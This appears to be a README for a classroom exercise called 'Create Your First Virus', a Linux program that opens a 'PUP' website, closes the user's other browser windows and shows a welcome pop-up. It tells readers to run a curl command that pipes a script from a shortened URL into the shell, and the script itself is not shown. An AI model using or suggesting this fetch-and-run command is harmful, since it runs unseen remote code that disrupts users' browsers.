

# Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` or `brave` browser
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```
## Demonstration

